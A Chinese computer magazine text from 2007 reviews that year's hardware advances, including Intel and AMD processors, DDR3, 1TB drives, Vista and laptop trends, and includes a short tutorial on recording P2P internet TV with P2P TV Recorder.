应该说，迅驰平台每一次换代升级，都给广大用户带来极大惊喜。Santa Rosa平台仍然采用基于酷睿架构的酷睿2处理器，代号Merom。并将酷睿微架构的宽位动态执行、高级智能高速缓存、智能功率特性、智能内存访问和高级数字媒体增强的五大创新功能进行增强和改进。Intel新一代Santa Rosa平台真正做到了低功耗高性能，同时兼顾双核和多媒体应用等最新趋势，颠覆了一味追求频率的怪圈。

此外，Santa Rosa平台相比较前一代的Napa平台而言，有多方面的技术革新。在处理器、芯片组、无线网络模块三大组件上都得到了升级。并引入了一项NAND闪存技术，名为迅盘，代号Robson。三大组件的改进主要表现在：新的酷睿2双核处理器拥有4MB的二级缓存和800MHz的前端总线，增加了IDA动态加速技术，同时在功耗控制能力上也有很大的提高。与之搭配的英特尔965芯片组最吸引人之处莫过于其集成的GMAX3100显示核心，能够使笔记本的游戏性能明显改善，还能够支持英特尔的“清晰视频技术”，视觉体验可谓是产生了一个质的飞跃。

支持802.11n技术的最新Intel PRO/Wireless 4965AGN技术也几近完美的应用在了Santa Rosa平台的无线模块领域。多入多出（MIMO）、信道捆绑、负载优化等多项新技术的应用使得无线局域网的传输距离和传输速度得到了明显改善。

令人关注的是，Santa Rosa平台同时也为Centrino品牌的一分为二开辟了道路，从Santa Rosa平台开始，Centrino被分别推向适于消费类市场选择的Centrino Duo和适于商用类市场的Centrino Pro。同时，英特尔AMT主动管理技术也应用于Centrino Pro，可以进行更好的自我保护和远程技术检测，升级和维护也很容易。

点评：Santa Rosa平台无论是在性能上还是功耗、无线、视频、电池续航能力等方面都得到了很好的提升，对此，笔记本用户一定会更加感受到系统运行的迅速和无线上网的如鱼得水。

#### 2.核心技术革新之——45nm Penryn时代来临
- 推荐指数：★★★★★
- 技术评定：★★★★★

Intel在65nm工艺处理器全面上市后又推出了今年的全新45nm Penryn，再次提升了处理器的制作工艺。全新的45nm Penryn处理器同样基于酷睿微架构，但是在很多细节上作出了相应的改进，使得功耗降低的同时提升处理器的性能。此外，全新的功耗管理技术使其不会在发热方面十分显著，其包括的第二代四核产品支持真正的SSE4指令集，因此进一步增强了它在多媒体方面的表现。Penryn核心频率的提升更是将高速缓存变得更为强大。

同时，Penryn家族的应用会涉及到桌面、服务器和笔记本三大领域，我们之所以称之为Penryn家族，就源于它庞大的家族阵容，共七位成员：双核心桌面处理器Wolfdate、双核心行动处理器Penryn、双核心Xeon DP处理器Wolfdate DP、双核心 Xeon MP处理器Dunnington DC、四核心桌面处理器Yorkfield、四核心Xeon DP处理器Harpertown和四核心Xeon MP处理器Dunnington QC。怎么样的确算得上是个大家族吧！

对于纳米的概念也许很多人无法体会，因为它不像厘米和毫米一样可用肉眼观察，10亿nm才相当于1米，形象的说，3万多颗45nm的晶体管叠加在一起只有针尖的大小，因此只有用非常先进的显微镜才可看到45nm的材料。

此外，Penryn处理器的双核心版本内部建有4.1亿个晶体管，而四核心版本则具有8.2亿个晶体管，微架构也较上代Core产品拥有更高的性能。在数据读取执行的命中率方面也得到了很大程度的提高。还加入了47条全新Intel SSE4指令，媒体性能提高的同时还实现了高性能运算的应用。

值得一提的是，新一代Penryn处理器还有一个十分人性化的设计，那就是它对于漏电的问题进行很好的解决。它选择采用了全新的材料来制作45nm晶体管绝缘层和开关闸极，降低晶体管漏电的情况，减少芯片和个人计算机的设计、大小、耗电量、噪声与成本开发的阻碍。

点评：Intel双核心45nm Penryn处理器性能更强、多媒体表现更优质、高速缓存更高效、数据执行的命中率更高……总之，这一家族的诞生引发了处理器领域的一场前所未有的变革。

#### 3.核心技术革新之——Intel发布3系列芯片组
- 推荐指数：★★★★☆
- 技术评定：★★★★★

Intel公司为了配合45纳米的制程桌上型和笔记本电脑芯片，正式发布了新一代的3系列桌面芯片组，代号为Bearlake。这一系列芯片组采用1个英文字母搭配2个数字来命名的方法，开头的英文字母代表其针对的市场，2个数字中的第一个代表其数字家族，后一个数字则代表功能定位。确切的说，P代表主流市场、X针对高级玩家市场、G代表内建IGP显示芯片、Q代表商用市场。

这一系列的芯片组是在Computex展会期间发布的。在全球记者见面会上，英特尔行动事业群副总裁暨芯片组事业群总经理Richard Malinowski隆重宣布：这是全世界第一款支持45纳米制程芯片、数据传输速度达到1333 MHz的DDR3内存、PCI Express 2.0、内存加速技术Turbo Memory的系列芯片组。它相比975、965、945芯片组来说，这一3系列是英特尔有史以来效能最强大的芯片组。

根据英特尔的规划理念，3系列的P35和X38将分别代替现有的P965和975X市场；而Q35则接替Q965、G33和G35接替945G和G965、G31接替946。事实上，在3系列芯片组正式发布之前，台湾地区的微星、技嘉、华硕、精英等厂商就已经开始有支持P35和G33芯片组的主板产品诞生了。

3系列芯片组的诞生象征着个人PC机迈向DDR3与PCI Express 2.0时代，也象征着英特尔积极努力地为双核心以及四核心的15款45纳米的芯片开道。

此外，ATI 已为AMD所并购，而AMD在很早就有市场传闻有意推出「Multi GPU Open Platform」政策，这也意味着英特尔的X38将会继续支持CrossFire技术，成为最强的Intel CrossFire平台。

而且在价格方面，3系列芯片组不存在价位高端用户难以企及的问题，它在价格优势、与现有主板针脚完全兼容方面，都为用户考虑得十分周到，用户也一定会加速向3系列芯片组的转型。

除FSB前端总线提升至1333MHz FSB外，还首度导入DDR3内存支持，为内存改朝换代拉开序幕，这就是代号为Bearlake的3系列桌面芯片组的惊人之处。这一技术上的创新一定会以最快的速度得到广大用户的青睐。

#### 4.核心技术革新之——AMD发布四核
- 推荐指数：★★★★★
- 技术评定：★★★★★

2007年9月10日上午，AMD “巴塞罗那”四核皓龙处理器全球首发礼在北京举行，AMD首款四核处理器（图1）正式发布。AMD方面称，AMD皓龙四核处理器是重新定义了x86处理器的工业标准，成为世界上最为先进的x86处理器，第一次实现了一个硅片上的四个计算机内核，还采用诸多项创新技术。使得性能更优越、功耗更低、投资保护更保值、虚拟化更卓越。

AMD四核皓龙处理器在计算上将推动高性能计算以及电信等其他行业应用的发展。而由于AMD真四核皓龙处理器的诞生，所有的这些行业都将受益匪浅，生产力进一步提高、能耗水平和性能逐步提升。

#### 二、主板领域新突破

#### 1.主板突破之——NVIDIA原厂主板
- 推荐指数：★★★★☆
- 技术评定：★★★★★

在显示芯片市场上，NVIDIA自ATI被AMD收购以来，已成为龙头老大，然而，就整体的资源和竞争力方面，NVIDIA还需走一条属于自己的路。在此形势之下，NVIDIA也开始制作属于自己的原厂主板产品（图2）。

NVIDIA”市场计划，并联合具备丰富NVIDIA显卡和主板渠道销售经验的七彩虹科技推出这一NVIDIA原厂主板，并同时在全球领域与EVGA、XFX、BFG等众多品牌合作，将“Designed by NVIDIA”套件送给全球的电脑用户。

“Designed by NVIDIA”主板的软硬件、驱动器、基本输入输出设备（BIOS）都是由NVIDIA公司精心设计而成。主板的用料上乘、做工精细，并在严格监督下操作生产，确保质量的优秀。也许见过九段骨灰玩家版680i SLI的用户就可以看出，何谓原厂的品质。因此，由“Designed by NVIDIA”的主板设计，我们就能够感受到NVIDIA的严谨风格，而且一看便知这是一块性能卓越的并具备强劲超频性能的主板。

“Designed by NVIDIA”原厂主板的所有部件都是经过最严格的测试，以保证其性能在不同的条件下都能够经得起考验。

凭借着NVIDIA强大的研发和生产实力，这款原厂主板的供电系统设计得十分扎实，电气性极佳的固态电容、六相供电设计等都保证了主板在超频时候的极大安全性和稳定性。此外，我们还可以从固态电容的使用上看出NVIDIA的务实风格。因为我们不能在全板都看到固态电容的使用。的确，很多地方并不一定要使用固定电容，因此这样做节省了不少的成本。光光是这一点就值得很多厂商学习。

此外，在显卡的位置设计上，原厂主板也存在着独特之处。北桥风扇被设计成直立式，而且与显卡的位置很近，这样一来非常方便显卡的背板进行散热。而且，我们在主板上找不到通常用不到的COM等接口，却发现了USB接口和1394接口，真可谓是大费苦心。

NVIDIA原厂主板的品质优越、设计风格独特、人性化十足，而且减少了不少的成本，超频的稳定性和安全性也很高。原厂的品质，的确令人眼前一亮，相信未来的主板市场，NVIDIA原厂主板会越来越多的受到广大用户的喜爱。

#### 三、硬盘存储大突破

#### 1.硬盘变身之——1TB硬盘
- 推荐指数：★★★★☆
- 技术评定：★★★★★

希捷很早就发布1TB 硬盘大关突破的消息，但是它的实际行动却是比日立迟了许多。日立于2007年的4月3日在日本电脑卖场上市的1TB硬盘可谓是50年来的一次重大突破。从此以后，存储业正式跨入了TB的时代。

那么，1TB的容量到底是多大呢？直接的说，它可以存储三百多部电影、三十万首歌曲，如果硬盘容量达到300TB的话，那么你的存储能力该是会相当的惊人，足足可以装进整个美国的国会图书馆。如此超大的容量，一定会让你体验到前所未有的随心所欲。

那么，我们在衡量一款硬盘的好坏时，可能会考虑到它的容量、散热、静音效果等。而日立推出的新款1TB Deskstar 7K1000 3.5" 桌上型硬盘在带给用户超大的容量之外还有什么亮点呢？

规格为3.5英寸的这款日立1TB硬盘采用PMR垂直磁记录技术、5碟设计（单碟容量200GB），PATA-133或SATA-3Gbps的接口，转速7200rpm，平均延迟(潜伏时间)为4.17ms，记录密度高达148Gb/平方英寸，平均寻道时间为8.7ms。而且SATA版本的缓存为32MB，数据最大传输率高达1070Mb/s。因此可以说，1TB的容量为我们开启了全新的存储旅程。

值得一提的是，Deskstar 7K1000还有一个型号为 "Deskstar 7K7510" 的姊妹产品，这一款除了采用了4碟装，8个磁头，空闲功耗8.1W的设计外，其余的规格都与Deskstar 7K1000相同。而 "CinemaStar" 硬盘也是日立公司宣布的1TB硬盘，它是专门用于优化数字录像设备(DVR)的存储载体，高清的视频内容大概可以存储250小时左右。

1TB硬盘与传统存储设备相比，其在存储能力上的大幅度提升值得我们的极大关注，从此以后，用户们的存储行为一定会更加轻松方便。而且我们也有理由相信，未来的存储市场将会不断的推陈出新，服务于广大消费者。

#### 四、内存也疯狂

##### 1. 显示新招数之——DDR3内存旋风横空出世

- 推荐指数：★★★★★
- 技术评定：★★★★☆

对于目前主流消费者而言，正是选购DDR2与DDR3内存的并存时期，尤其是DDR2 800内存颇为受到用户的喜爱。然而，随着内存的稳步发展，DDR2内存已经发展到了一个瓶颈，因此市场迫不及待的等待着DDR3的大量普及。

其实，早在2005年2月18日，三星公司就顺利地开发出了世界上第一款DDR3 SDRAM内存芯片，其芯片容量达到512Mb，并采用80nm工艺制造而成，数据传输率达到1066MB/s，而能耗则减少了40%之多。此外，在2006年的Computex台北会展上，威刚科技也展示了它们的新一代DDR3内存，即vitesta DDR3无缓冲DIMM内存。其单条容量均达到1GB的水平，延迟设定为CL7，包含DDR3-1066和DDR3-1333两种规格。此后，DDR三代内存便开始了它的漫漫征程。

无论是Elpida、Kingston，还是海盗船等内存厂商，都推出了它们的DDR3内存，DDR3内存自然就很大程度地占据了市场份额。那么，DDR3与DDR2相比，到底存在着哪些革新呢？是不是DDR3一定会成为市场的主流呢？

进一步提升内存的带宽很显然是DDR3内存的最大任务，同时也是为了配合越来越高的CPU性能指标。此外，当内存频率达到极端频率1066MHz时，内存的良率和成本都不甚理想，因此，为了寻求更低廉的成本和更高的频率，DDR3应运而生。

相较DDR2内存而言，DDR3拥有更高的带宽和频率，这源于DDR3内存的预取机制是从DDR2的4bit预取升级为8bit。此外，在工作电压方面，DDR3内存是采用100nm以下生产工艺精制而成，并增加了ZQ校准和异步重置功能、点对点连接(Point-to-Point，P2P)等。因此在提升性能的同时也更加省电。而且，DDR3的CL周期也有所提升，还增加了一个突发突变的4-bit Burst Chop模式。

随着DDR3的普及，其优势也会越来越突出地体现出来。然而，在这样的一个新老更替的中间环节，相信DDR3和DDR2还是会在一段时间内并存的。而随着DDR3技术的不断发展完善，它一定会成为未来的走向。

DDR3的优势在于高频率、低功耗以及更低的发热量，然而，目前仍然存在着某些遗憾和不足，但是我们相信，当这段DDR2与DDR3的交接时期过去之后，我们迎来的一定会是DDR3的蓬勃态势。

#### 五、操作系统另辟蹊径

##### 1. 操作系统新技术之——Windows Vista

- 推荐指数：★★★★★
- 技术评定：★★★★★

2007年1月30日那天，微软在中国与全球同步向消费者发售Windows Vista这一微软最新的旗舰产品。与此同时，全球70多个国家和地区的39000多家零售点以及网上商店也开始同一时间发售。

Windows Vista的创新设计意在改进人们利用技术互联、沟通、创造以及分享内容和娱乐的方式。这是一次前所未有的最大的软件升级活动，微软在这方面做出了很大的投入。Windows Vista这一个名字是早在2005年微软就正式公布了的Windows操作系统的最新版本。时隔不到一年半的时间，这一操作系统就于2006年11月8日正式进入批量生产，于2007年1月30日正式投入市场，如此惊人的速度更体现了微软在这一技术的研发上肯定付出了极大的努力和牺牲。

Windows Vista操作系统距上一个操作系统版本，即Windows XP系统时隔了五年多的时间，因此我们也可以说，这一款厚积薄发的操作系统不仅是有史以来的一次最大程度的操作系统的变革，更算的上是惊世骇俗之作。

Windows Vista不仅是成千上万微软公司员工的共同努力和智慧的结晶，更是聆听来自客户的和合作伙伴的不同声音精心打造而成。微软认为，与客户的不断沟通和交流以及与广大合作伙伴的空前合作成为这次技术创新的重要因素。

Windows Vista界面精美，支持超过3万种设备驱动程序，远远超过Windows之前任何一个版本的操作系统。Windows Vista的出现，彻底颠覆了已有的操作系统，让用户有一个全新的体验。

#### 六、液晶出新招

##### 1. 显示新招数之——液晶插“黑”

- 推荐指数：★★★★☆
- 技术评定：★★★★☆

"Black Frame Insertion Technology" 即为插黑技术的英文全称。其原理在于通过IC控制芯片在两帧画面中周期性地插入全黑画面，从而避免人眼的特殊成像机理而产生的在画面切换时出现边缘模糊的效果。如此一来，液晶屏幕的拖影现象便得到了改善。

事实上，黑插入技术并不复杂，它并非属于液晶领域的创新技术，在电影业早已被广泛的使用，借助全黑的画面来消除肉眼的视觉残留现象。明基最先将其应用于液晶显示器领域。

与此同时，插黑技术应用之时，也要慎重的对黑画面与其它正常画面的插入比例进行控制，对比不能过低。否则很可能会导致面板的漏光现象，从而影响到整体的对比值。

目前，众多的液晶厂家都开始应用这一技术来消除拖影现象，而且应用的范围越来越广泛，相信未来的液晶领域对于这一技术一定会更加青睐。

从液晶显示画面的局限性上来讲，插黑技术大大提高了画面的效果，为用户们提供了更为流畅和清新的视觉体验，可与CRT屏幕相媲美。

此外，插黑技术的一大亮点在于它在保证液晶的现有响应时间基础上，不但可以消除液晶的拖影现象，更不会造成成本的过多提高，而且实现起来比较容易，实用又实惠。

同时，插黑技术也不是完美无瑕的，它的局限性在于只能应用于灰阶响应速度较高的液晶显示器上，否则无法真正的发挥作用。准确地说，实现插黑的最低限度是灰阶8ms的响应时间，如果超过了这个时间，插入的黑画面就会被人眼所察觉。因此显示器的响应时间较慢的话，就不符合插黑的条件了。同时，如果我们在画面中插入了过多的黑色画面的话，液晶屏幕的亮度就会相应的降低很多。

对于液晶响应时间的发展以及拖影现象的解决而言，到目前为止，插黑技术的确可以算的上是一种十分有效的变通手段，它解决了画面拖影的实际问题。然而，随着新技术的层出不穷，要提高液晶画面的质量问题，我们共同期待着更好的解决方案。

#### 七、电源也时尚

##### 1. 电源新规范之——ATX12V 2.3版电源

- 推荐指数：★★★★☆
- 技术评定：★★★★☆

2007年的第一季度，ATX 12V 2.3电源标准经过一年之久的酝酿与筹备，在众人面前横空出世。

ATX 12V 2.3电源标准较以往的电源标准进行了恰到好处的革新，更适应目前CPU功耗降低、显卡功耗增长的特点，并且符合Vista平台的特殊功耗需求。单就该标准电源与Intel ATX12V 2.2版电源标准相比较，新版的电源标准将+12V1输出能力进行了提升、+12V2的输出能力进行了降低，而且针对不同的功率，它还设计了不同的输出标准。300W以下功率级都是单路+12V，而达到了300W或300W以上的电源的功率级则采用双路12V。此外，新标准电源还首次规定了180W、220W、270W三个功率级的单路+12V的功率级。因此，ATX12V 2.3版规范比2.2版更为详细、更为合理。同时，针对目前电子行业领域的节能理念，2.3版本电源更符合节能与环保的时代和人文精神。

Intel ATX12V 2.3版电源规范一经发布以来，国内的一些有实力的厂商也纷纷陆续推出符合该规范标准的电源，如国内的首款ATX12V 2.3版电源——航嘉磐石315，这款电源以第一代磐石技术为基础，利用单端正激式电路取代了传统的半桥电路，交叉调整好、器件少、驱动简单、动态响应也很出色。这款电源正如它的名字一样稳定坚毅，具有十分稳定的性能表现，静音效果也很不错。

Intel ATX12V 2.3版规范在售价上与旧版本的标准几乎是持平的，它将目前的电源市场进行了某种程度的整合，并对未来电源市场指明了方向。

ATX12V 2.3版电源规范关注节能与环保的理念，提高了电能的转换效率，减少和控制了那些对人体和环境产生危害的物质。它的设计更为详细、合理，也成为了Vista平台的一个最佳搭档。

#### 八、音箱新面孔

##### 1. 音箱新面孔之——“电子管”之风

- 推荐指数：★★★★☆
- 技术评定：★★★★☆

电子管的音箱产品从外观看上的最大特点是体积较大，而且其价格也是不菲的。然而，一直以来，我们常见的传统的多媒体音箱采用晶体管放大器，而电子管音箱产品的特色何在呢？相信不用多说很多人也都知道，电子管音箱产品采用电子管作为放大级，动态的范围较大、线性好、音质的表现也更加悦耳；富于金属质感（图3）。



其实，由于电子管音箱的音质效果和特征以及较高的价位特点，很多人以前都认为，只有那些音响设计大师或者资深的音箱发烧友才会选择电子管音箱，而今年的音箱市场上，我们却能看意外的景象：电子管音箱产品的大面积普及和用户的追捧程度多多少少揭开了电子管音箱的神秘面纱，传统的晶体管和集成电路多媒体音箱的市场份额被电子管产品抢占了不少。用户越来越喜欢电子管音箱的独特声音魅力，音色纯正、绕梁三日。

目前，大极典A6、M30音箱、纳伟仕“天音”系列音箱都是电子管音箱的典型产品。“天音”系列音箱均是采用当前最为先进的独立功放设计理念，最大程度上避免了功放电路的电磁干扰，使得声音的回放质量有了保证。

然而，电子管音箱也存在着它的弊端，需要高压供电设备，变压器是必不可少的部分。而且它功耗较大、很容易导致失真现象，而且体积也真是大出一般多媒体音箱不少。

总之，尽管截止到目前电子管音箱的普及程度得到了前所未有的提高，然而，它的弊端还是存在的，因此我们就应该翘首以待，新的电子管音箱改良技术一定会在不久的将来出现。

电子管的音箱产品的音质表现优异，它的动态对比度高、音色纯正、质感十足、线性好，确实值得广大消费者的青睐。

##### 2. 音箱新面孔之——独立功放音箱

- 推荐指数：★★★★★
- 技术评定：★★★★★

在庞杂的音箱市场上，独立功放的音箱产品在这一年中受到了广大消费者的极大青睐。这一年来颇有特色的技术，在今年真正可谓是风靡整个电子市场。

首先我们来看一下所谓的独立功放于其它的功放产品到底存在着哪些不同之处。独立功放有独立的外壳，功放不再与扬声器为一体而是独立成为一个实体部分。单就独立功放产品的音质表现上，不是独立功放产品的音质就一定可以得到提升，它与这种设计不存在必然的关系。

独立功放产品存在着很大的优势，就一般的内置功放音箱来讲，开关和旋钮等都设计成后置、侧置或前置于音箱箱体上，如果是2.1或4.1等音箱更是将其设计在低音炮上，使用起来很不方便。而且，很多音箱采用线控或者是将控制器设计在某个声道的音箱上，而且提供的可供用户自行调节的选项也十分有限，而独立功放则操控起来十分方便，将开关、旋钮等都设计在了功放盒上，而且调节功能也十分全面。

此外，就音箱的散热效果来看，内置功放的音箱由于密封在导热效果差的木箱体内，因此，热量只能是通过倒相管的对流进行散热，即便是设计了方便散热的金属背板或散热片装置，也不能解决变压器等发热部件的散热问题。而独立功放的设计都采用外壳内的很大部分将强电设备如变压器等与信号电路分隔开来，并将散热片或者主干电路放置于通风较好的地方，因此就保证了各个电路部分的最佳工作状态。

独立功放的设计还避免了内置功放的电路难以稳定问题，内置功放的箱体内的空气在工作状态下不停的振动，这些空气无形当中推动了功放的PCB板和电子元件同样发生微小的振动，以及电容元件的振动，于是声音的效果就会大打折扣。而独立功放不必在箱体上开多余的孔，箱体漏气的可能也减小了。

独立功放产品调节功能全面、散热性能优越、电路稳定性强，如此优质的性能体现难怪受到众人追捧呢！

#### 九、为环保做贡献

##### 1. 为环保做贡献之——中国版RoHS实施

- 推荐指数：★★★★★
- 技术评定：★★★★☆

RoHS是早在2003年1月欧盟通过的一个旨在电子电气设备中限制使用某些有害物质的指令。而中国版RoHS实际上是继2004年出台的《电子信息产品污染防治管理办法》后又最新出台的一部更为细化的办法。它是由国家信息产业部联合国家质检总局以及国家环保总局等七个部委于2006年2月28日颁布的。根据这一办法，从2007年3月1日起，市场上的电子产品就会较以往多加贴了一个环保的标志（图4）。当然，没有标志的就会受到相关部门的查处。

事实上，电子产品污染防治的核心内容就是对铅、汞、六价铬、镉、多溴二苯醚、多溴联苯六种有害物质的控制。按照该办法的规定，此次推出的加贴标志为“绿标”和“橙标”。“绿标”代表达到了环保标准。也就是说，该产品中的任何以上六种产品都要低于“限量要求”。企业可以自行选择该标志的显示位置，可以是在产品表面上显示，也可以在产品的说明书中注明。而“橙标”则表示警示，任何以上六种有害物质在产品中的含量高于“限量要求”就会采用“橙标”。而且采用该标志的产品还需在产品的说明书中配备一个产品的有毒有害物质或元素表格，在表格中列出产品各部件的有害物质含量情况，用“×”表示高于“限量要求”的物质，用“○”表示低于“限量要求”的物质。

因此，该《管理办法》的实施，将有利于推进中国电子信息产业的“绿色制造”，提升国际竞争力。

回眸2007年，每一项创新技术的飞跃发展都成为IT领域的一株奇葩，无论是操作系统、存储设备，还是核心部件，又抑或是音箱、电源等产品，都产生了质的飞跃。然而，不论如何，我们在这里都不可能做到一一阐述，以上就是我们针对大部分技术革新进行的一个相对全面的大扫描。2007年，我们辉煌走过，在未来的2008年中，相信也一定会有更多的精彩等着我们！



### 用P2P TV Recorder录制网络电视节目

文 / 小笼包

如今，在电脑上看网络电视已经不稀奇了，但如果能把节目录制下来，与家人和朋友分享，反复回味，那岂不是更好？要实现此功能，使用P2P TV Recorder即可轻松搞定，它能方便地保存各种P2P网络电视到你的硬盘，实现离线观看，它不仅支持PPLive、PPStream、Coolstreaming、SopCast、PPmate、UUSee、Tvant等多种P2P网络电视软件，而且还能监视磁盘使用情况，保护你的硬盘。

安装并启动P2P TV Recorder多国语言版，使用View→Languages→Chinese Simplified命令，将程序选择为简体中文界面。在使用之前，我们要简单设置一下。

单击“工具”→“设置命令”，可将“存放数据的目录”更改为其他路径。建议选中“监视磁盘空间的时间间隔”和“发出警告每当磁盘空间低于”复选框，时间均使用默认值即可。

接下来选择录制节目源。这里以PPLive为例，首先选择播放频道和节目，双击开始播放，在播放界面上单击鼠标右键，选择“默认播放器中播放”命令，将调用Windows Media Player来播放网络电视。在WMP中，按Alt键调出菜单，使用“文件”→“属性”命令，查看视频文件的真实网址，并将其复制。

切换到P2P TV Recorder软件中，将刚才复制的网址粘贴到“频道地址”文本框中，并单击“立即记录”按钮，在下方的列表中即可看见P2P TV Recorder已经开始对网络视频进行录制了。接下来你就可以一边欣赏网络电视，一边将精彩视频下载到本地硬盘了。

另外，P2P TV Recorder还提供了十分贴心的定时录制功能。操作也很简单，单击工具栏的“属性”按钮，打开“属性”窗口，切换到“调度”选项卡，在这里你可以预设录制的日期和时间，如果某档节目在固定的时间段内连续播出，还可以设置每周的哪几天进行录制。接着，将软件最小化到系统托盘，它就会在规定的时间帮你录制节目了。

### 2007年技术点评与年度产品——笔记本

◆文/方成亮

#### 一、Vista催化剂：笔记本性能全面提升

微软下一代操作系统Windows Vista对笔记本电脑的硬件配置提出了很高的要求。面对这有史以来最强悍的“硬件杀手”，大多数上一代本本只能运行低阶版本Starter和Home Basic。而对高阶的Home Premium或是Business Edition，笔记本在今年进行了全面的硬件配置升级。

##### 1. 内存迎来1GB双通道时代

在迅驰2平台中，Intel已经引入了支持双通道内存的I915PM系列芯片组，但是当时的单核心对于内存带宽的需求并不如现在的双核心时代那么强烈。而在进入Windows Vista时代，双核心瞬间成为潮流所趋，此时双通道内存的普及呼声越来越高。从笔记本厂商的角度来看，使用双通道内存必然会增加成本。同样是配置512MB内存，单条512MB内存就比两条256MB内存便宜不少。更何况，不少笔记本还在使用单条256MB内存，这样的“跛脚”配置让用户痛苦不已。但是，从2007年上半年开始，越来越多的厂商开始走出“单通道魔咒”，譬如联想在年初一度以双通道内存配置为促销卖点，让其下多款产品全面升级到双通道大容量内存。既然增加并不多的成本就能带来更明显的性能提升，进而大幅度提升产品竞争力，那么又何乐而不为呢？为了帮助用户在实际使用中体验到更好的性能表现，以联想、DELL、神舟、HP为代表的笔记本大厂开始全面推广双通道内存。与此同时，为了搭配Windows Vista的海量内存需求，并且顾及到笔记本内存单条容量已经全面提升到512MB，因此使用2条512MB组成1GB双通道内存逐渐成为今年上半年的主旋律（图1）。



##### 2. GPU标准全面提升

迅驰4平台在今年上半年的普及对笔记本的GPU性能提高做出了巨大贡献，然而，这一切都还得归功于Windows Vista。由于Vista的3D界面对显卡性能提出较高的要求，再加上Vista下新一代的DX10应用，这就迫使Intel对老迈的集成显卡进行升级。平心而论，迅驰4平台中的GMA X3000尽管对DX10支持并不完整，可是其性能进步却是有目共睹的。也正是因为Intel集成显卡性能提升的压力下，nVIDIA和AMD都分别改进了其移动GPU。Mobility Radeon X1300/X1400/X1600都不算是高端产品，可出色的性价比却令其引领了独立显卡革命。同样，来自于nVIDIA的GeForce Go 7600/7400也非常不错。大量5000元以内的笔记本开始装配独立显卡，无论是支持Vista还是3D游戏，这都令笔记本的3D性能有了很明显的提升（图2）。

##### 3. 周边配置补差补漏

从微软给出的“Windows Vista Capable”和“Windows Vista Premium Ready”两种配置要求标准来看，随便哪一个最低配置要求下的产品来运行XP系统都足可胜任，尤其是“Windows Vista Premium Ready”最低配置要求下的产品，对于运行XP操作系统来说简直是“梦幻级配置”。但是尽管如此，厂商对Vista大时代背景还是丝毫不敢怠慢，因此全方位的性能提升成为今年上半年很明显的一个趋势。在硬盘方面，Vista主要是对硬盘的速度有较高要求。可以看到，现在5400转SATA接口并具备8M缓存的笔记本硬盘已经是标配了，去年还比较常见的4200RPM笔记本硬盘转眼已经成为过眼烟云，而SATA笔记本硬盘更是艰难地在近期成为主流。LCD屏幕方面，去年就掀起的宽屏潮流如今已经是主流配置，这也算是拜Vista鼎立支持宽屏所赐。



#### 二、呼唤超薄时代：13.3英寸映入眼帘

纤薄的身材总是最让人心动的，因此笔记本厂商无不追求这种极限身材。

但是，由于CPU、显卡以及硬盘等设备本身的发热量不容小觑，所以真正要打造超轻薄笔记本电脑可并不容易。目前，笔记本整体厚度普遍在3cm以上，能够实现2.5cm以下的厚度就能够令人非常满意。超薄的身材必然对散热形成极大的压力，这直接导致超轻薄笔记本在市场上迟迟难以普及。

不过，今年的笔记本电脑市场还是在轻薄产品领域给我们带来了惊喜。13.3英寸这个冷门尺寸突然间异军突起，成为轻薄笔记本市场不可忽视的一股力量。我们常见的笔记本电脑屏幕尺寸基本都在12~15英寸之间。而在这一区间当中，“12.1英寸机型”被公认为小屏幕笔记本电脑的代表，屏幕视野和操作空间较小，移动性极佳；“14.1英寸机型”被公认为主流屏幕笔记本电脑的代表，屏幕视野和操作空间极佳，移动性较弱。而“13.3英寸机型”则兼顾了“屏幕视野”、“操作空间”和“移动性”。因此，13.3英寸机型又被大家称为“屏幕尺寸最合理的笔记本”。如果你对笔记本配置情况、散热情况、屏幕视野、操作空间和移动性的要求都比较高，13.3英寸机型绝对是最明智的选择。而且，许多13.3英寸笔记本还配备了独立显卡，这也是大多数12.1英寸笔记本无法做到的（图3）。



虽然13.3英寸笔记本电脑显示屏主要是液晶面板厂商使用不太先进的第5代以下生产线生产的，价格高于14.1英寸或者15.4英寸显示屏面板。但是，随着出货量的不断提高，面板厂商正开始用第5代生产线生产13.3英寸显示屏，这也是促成13.3英寸笔记本逐渐成本下调的主要原因。从今年年初开始，富士通S6311Y、联想天逸F30、华硕W7K24J-SL、神舟优雅Q320R、索尼VGN-SZ422、明基S31、苹果MacBook等一系列产品刮起了一阵13.3英寸旋风。尤其是富士通S6311Y，这款极具特色的产品凭借突出的超轻薄表现和完美的商务应用功能征服了消费者，可谓是这股13.3英寸潮流的领导者。

与此同时，我们还可以发现今年厂商开始变得更加务实，在13.3英寸超轻薄笔记本上放弃内置光驱已经不再是罕见的设计，而且逐渐成为一种趋势。这里要告诉大家的是，如果决定要购买超轻薄产品，那么就不要有着太多的顾虑，学会放弃内置光驱是明智的做法。目前普及度很高的100/10M局域网和无线网络完全能够通过共享方式来读取光盘，即便是购买一个USB光驱也只有区区几百元。长远来看，13.3英寸超轻薄笔记本在今年的崛起绝非偶然，逐步取代12.1英寸的可能性将会非常大。

#### 三、架起笔记本与PDA的桥梁——UMPC闪亮登场

计算机和网络技术的飞速发展将电子化、信息化推向了社会生活的各个角落，各种轻便小巧的手持式IT产品不断涌现。然而，传统的笔记本由于其较大的体积根本无法满足我们的需求。更多的时候，我们需要的是一款集移动办公、视听娱乐、网络资讯、时尚潮流于一体的多功能设备。毫无疑问，PDA一度赢得了大多数用户的芳心。但是客观而言，目前PDA仍然处于初级阶段，不仅性能上无法令人完全满意，而且操控上的不便更是短时间内无法解决的问题。在经历了Tablet PC的短暂试探之后，微软终于意识到在便携性与性能之间取得平衡才是最重要的，因此UMPC孕育而生。经过去年的试验，今年UMPC终于在市场上站稳脚跟。

Intel为UMPC所推出的处理器基本上是迅驰笔记本电脑中的超低电压版产品，因此在保持良好性能的同时，较大的功耗和发热量一直成为其令人诟病的对象。不过，假如厂商仅仅是将其应用在7英寸左右的大尺寸UMPC，并且加以出色的散热技术，那么Intel为UMPC所提供的解决方案还是相当完美的。三星Q1、方正MiniNote、华硕R2，这些使用7英寸屏幕的UMPC都在万元以内有了相应的产品，其价格已经能够让部分消费者欣然接受。

此外，VIA目前所推出的UMPC处理器为C7-M，这也曾在笔记本电脑领域崭露头角。虽说VIA C7-M性能不如Intel的产品，但是其超低功耗还是让人刮目相看，并且应对各种多媒体应用和移动办公也已经绰绰有余了。技嘉U60可谓是近期UMPC市场非常引人瞩目的一款产品，通过VIA芯片组以及768MB内存和30GB硬盘的支持，这款UMPC的性能并不逊色于其他产品，而且6000元左右的价格让人看到UMPC平民化的可能性。

